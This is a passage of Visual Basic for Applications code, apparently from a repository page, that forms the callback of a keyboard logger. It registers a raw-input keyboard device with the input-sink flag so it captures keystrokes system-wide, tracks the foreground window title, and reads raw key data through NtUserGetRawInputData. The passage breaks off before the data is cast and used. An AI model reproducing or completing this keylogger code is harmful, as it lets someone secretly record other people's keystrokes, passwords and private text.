 ```vb
'Our callback
Private Function WndProc(ByVal lhwnd As LongPtr, ByVal tMessage As Long, ByVal wParam As LongPtr, ByVal lParam As LongPtr) As LongPtr
    Dim WM_CREATE As Long
    Dim WM_INPUT As Long
    Dim WM_KEYDOWN As Long
    Dim WM_SYSKEYDOWN As Long
    Dim VK_CAPITAL As Long
    Dim VK_SCROLL As Long
    Dim VK_NUMLOCK As Long
    Dim VK_CONTROL As Long
    Dim VK_MENU As Long
    Dim VK_BACK As Long
    Dim VK_RETURN As Long
    Dim VK_SHIFT As Long
    Dim RIDEV_INPUTSINK As Long
    Dim RIM_TYPEKEYBOARD As Long
    Dim rid(50) As RAWINPUTDEVICE
    Dim RawInputHeader_ As RAWINPUTHEADER
    Dim dwSize As Long
    Dim fgWindow As LongPtr
    Dim wSize As Long
    Dim fgTitle() As Byte
    Dim wKey As Integer
    Dim result As Long
    
    WM_CREATE = &H1
    WM_INPUT = &HFF
    WM_KEYDOWN = &H100
    WM_SYSKEYDOWN = &H104
    
    VK_CAPITAL = &H14
    VK_SCROLL = &H91
    VK_NUMLOCK = &H90
    VK_CONTROL = &H11
    VK_MENU = &H12
    VK_BACK = &H8
    VK_RETURN = &HD
    VK_SHIFT = &H10
    
    RIDEV_INPUTSINK = &H100
    RIM_TYPEKEYBOARD = &H1&
    
    'Check the message type and trigger an action if needed
    Select Case tMessage
    Case WM_CREATE ' Register us
        rid(0).usUsagePage = &H1
        rid(0).usUsage = &H6
        rid(0).dwFlags = RIDEV_INPUTSINK
        rid(0).hwndTarget = lhwnd
        r = RegisterRawInputDevices(rid(0), 1, LenB(rid(0)))
        
    Case WM_INPUT
        Dim pbuffer() As Byte
        Dim buffer As RAWINPUT
        
        'First we get the size
        r = NtUserGetRawInputData(lParam, &H10000003, vbNullString, dwSize, LenB(RawInputHeader_))
        ReDim pbuffer(0 To dwSize - 1)
        'And then we save the data
        r = NtUserGetRawInputData(lParam, &H10000003, pbuffer(0), dwSize, LenB(RawInputHeader_))
        If r <> 0 Then
            'VBA hacky things to cast the data into a RAWINPUT struct
```